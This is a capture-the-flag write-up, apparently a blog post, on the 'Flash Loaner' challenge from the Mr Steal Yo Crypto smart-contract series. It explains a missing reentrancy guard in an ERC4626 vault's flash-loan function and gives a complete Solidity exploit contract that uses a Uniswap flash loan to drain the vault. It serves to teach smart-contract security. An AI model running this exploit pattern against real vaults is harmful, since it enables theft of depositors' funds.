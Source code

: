 ```yaml
---
title: "Mr Steal Yo Crypto — Flash Loaner"
date: 2023-07-22
draft: false
description: "CTF - 12"
tags: ["CTF"]
series: ["CTF"]
series_order: 12
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```


This is the #12 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real world exploits.
> Created by [@0xToshii](https://twitter.com/0xToshii)

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement)

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

## Flash Loaner

No defi functionality has safeguarded crypto more from exploits than the humble flash loan.

The FlashLoaner contract accepts funds from users in order to facilitate flash loans, in which they charge a small fee. This fee is provided as yield to the depositors.

Your task is to drain 99%+ of the user funds from this contract. You start with no funds.

- [See the contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/flash-loaner)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/12-flash-loaner.sol)

### Review of the contract

#### FlashLoaner.sol

The contract has one function related to flashloan and the rest is related to [ERC4626](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/extensions/ERC4626.sol) and Ownable. As the name of the challenge is Flash Loaner, I decided to first check the function flash(). Most of the time, when a contract allows flashloan, there is a reentrant check in order to not use the amount inside the protocol on the protocol. However, I don’t see any check here or override on the function of ERC4626. Maybe that’s our vulnerability.

Inside flash(), the process of the flashloan is pretty simple. The contract sends you the amount requested. Then through flashCallback(), it will give the hand to your contract in order to do your things. At the end, the function checks if it gets back the amount requested and a fee.

If this is the first time you see ERC4626, I will just add some notes on this ERC. When you call deposit() or mint(), you are not updating a variable like `balance[user] = amount`. Instead, the protocol mints an `amount` of shares. In our case, if we deposit 10 USDC, we will receive 10 fUSDC. This is a proof that we send 10 USDC to this protocol. Then with your fUSDC, you can do what you want! Maybe deposit it into another protocol or send it to your friends. After that, this will be your friend who is able to withdraw 10 USDC by burning 10 fUSDC.

```solidity
// @dev Function to perform flashloan
function flash(address recipient, uint256 amount, bytes calldata data) external {
    require(totalAssets() > 0, 'zero-liquidity');
    require(amount > 0, 'invalid-amount');

    uint256 fee = amount.mulDiv(feeBasis, feeMax, Math.Rounding.Up);
    uint256 balanceBefore = totalAssets();

    IERC20(asset()).safeTransfer(recipient, amount); // optimistic transfer

    IFlashCallback(msg.sender).flashCallback(fee, data);

    uint256 balanceAfter = totalAssets();
    require((balanceBefore + fee) <= balanceAfter, 'insufficient-returned');

    uint256 paid = balanceAfter - balanceBefore; // shares remain same, total assets increase

    emit Flash(msg.sender, recipient, amount, paid);
}
```

### Exploit the vulnerability

As we saw before, we are able to request the funds of the protocol and deposit the funds inside the contract through deposit() or mint() (function of ERC4626). It means that you returned the funds and also your balance is increasing the amount that you borrow, pretty cool! But wait, how do I pay the fee? Remember that if you have no funds, you can do a flashloan through a DEX or lending market ^^:

1. Flashloan n amount of USDC on UniswapV2.
2. Borrow all the amount (z) of USDC on FlashLoaner.
3. Deposit the amount z through deposit(), we get z amount of fUSDC.
4. Send `fee` amount of USDC for paying the fee of the flashloan of Flash Loaner.
5. Withdraw all the USDC of FlashLoaner (z) by burning z fUSDC.
6. Send `n + fee` amount of USDC to the Uniswap pool.
7. Check how much you win!

Here is a quick solution:

```solidity
contract Exploit {
    FlashLoaner flashLoaner;
    Token usdc;
    IUniswapV2Pair uniPair;
    address private attacker;

    constructor(address _target, address _usdc, address _uniPair){
        flashLoaner = FlashLoaner(_target);
        usdc = Token(_usdc);
        uniPair = IUniswapV2Pair(_uniPair);
        attacker = msg.sender;
        usdc.approve(address(flashLoaner), type(uint).max);
    }

    // Will be called during flash()
    // We will deposit the amount get from flash() and pass all the check with balanceBefore and balanceAfter
    function flashCallback(uint256 fee, bytes calldata data) external {
        flashLoaner.deposit(100_000e18, address(this));
        usdc.transfer(address(flashLoaner), fee); // Send the fee for the flashloan
    }

    // We are using a flashloan from univ2 in order to pay the fee for using flash() from flashLoaner
    function uniswapV2Call(address _address, uint amount0Out, uint amount1Out, bytes memory data) external {
        console.log("balance usdc of exploit : ", usdc.balanceOf(address(this)));
        flashLoaner.flash(address(this), usdc.balanceOf(address(flashLoaner)) - 1, new bytes(0));
        console.log("balance share fusdc of exploit : ", flashLoaner.balanceOf(address(this)));
        flashLoaner.redeem(flashLoaner.balanceOf(address(this)), address(this), address(this));
        console.log("balance share fusdc of exploit : ", flashLoaner.balanceOf(address(this)));
        console.log("balance usdc of exploit : ", usdc.balanceOf(address(this)));
        console.log("amount to repay : ", (amount0Out * 103 / 100) + 1); // Yeah, the premium

 is a bit too high
        usdc.transfer(address(uniPair), (amount0Out * 103 / 100) + 1);
    }

    function pwn() external {
        uniPair.swap(10_000e18, 0, address(this), new bytes(1));
        usdc.transfer(attacker, usdc.balanceOf(address(this)));
    }
}
```

You can check my test file [here](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/12-flash-loaner.sol).

### Acknowledgement

Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me to write articles on CTF ^^.